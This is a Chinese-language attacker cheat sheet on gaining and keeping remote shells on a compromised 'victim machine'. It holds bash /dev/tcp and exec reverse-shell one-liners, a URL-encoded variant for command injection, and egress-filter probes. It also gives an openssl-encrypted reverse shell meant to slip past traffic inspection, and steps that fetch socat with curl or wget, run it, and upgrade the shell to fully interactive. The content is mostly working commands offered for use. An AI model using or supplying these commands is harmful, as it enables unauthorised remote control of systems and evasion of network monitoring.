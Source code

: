 ### 1、检查存在哪些反弹shell的命令
```
受害机上执行：
whereis bash nc python php exec perl ruby telnet

用bash反弹shell：
VPS上执行：nc -n -v -lp 1024
受害机上执行：/bin/bash -i >& /dev/tcp/<your_vps>/1024 0>&1
需要注意，当在URL地址栏或burp中进行命令注入利用时，需执行：
/bin/bash -i %3E%26 /dev/tcp/xx.xx.xx.xx/1024 0%3E%261

用exec反弹shell：
0<&196;exec 196<>/dev/tcp/<your_vps>/1024; sh <&196 >&196 2>&196

其他反弹shell命令可通过浏览器插件Hack-Tools查看
```
### 2、禁止向外流量的检查方法
```
VPS上执行：
tcpdump -i eth0 -n -v icmp|grep -i "length 93"

受害机上执行：
ping -s 65 -c 1 xx.xx.xx.xx
```
### 3、限定向外端口的检查方法
```
VPS上执行：
nc -n -v -lp 3636

受害机上执行：
curl http://xx.xx.xx.xx:3636
```
### 4、流量审查的检查方法
```
第一步，在VPS上生成SSL证书的公钥/私钥对：
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
第二步，VPS监听反弹shell：
openssl s_server -quiet -key key.pem -cert cert.pem -port 443
第三步，受害机上用openssl加密反弹shell的流量：
mkfifo /tmp/s;/bin/bash -i < /tmp/s 2>&1|openssl s_client -quiet -connect xx.xx.xx.xx > /tmp/s;rm /tmp/s
此时，VPS上成功获取哑shell
```
### 5、将哑shell变为功能齐全的交互式shell
```
第一步，在哑shell中执行：
python -c 'import pty;pty.spawn("/bin/bash")'
第二步：键入Ctrl-z，回到VPS的命令行中
第三步，在VPS中执行下述命令回到哑shell中：
stty raw -echo
fg
第四步，在哑shell中键入Ctrl-l，并执行：
reset
export SHELL=bash
export TERM=xterm-256color
stty rows 54 columns 104
此时，VPS上的shell为全功能的shell
```
如果拿到的shell执行Ctrl-z会退出会话，可考虑使用socat的方案：
```
攻击机：
socat file:`tty`,raw,echo=0 tcp-listen:4444
受害机：
curl -o /tmp/socat http://192.168.81.160:8000/socat 或者 wget -O /tmp/socat http://192.168.81.160:8000/socat
chmod u+x /tmp/socat
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.81.160:4444
此时拿到的shell可以执行删除、可以选择历史命令、可以执行ctlr-c
```

参考链接：  
https://www.freebuf.com/vuls/211847.html  
https://saucer-man.com/information_security/233.html#cl-1  
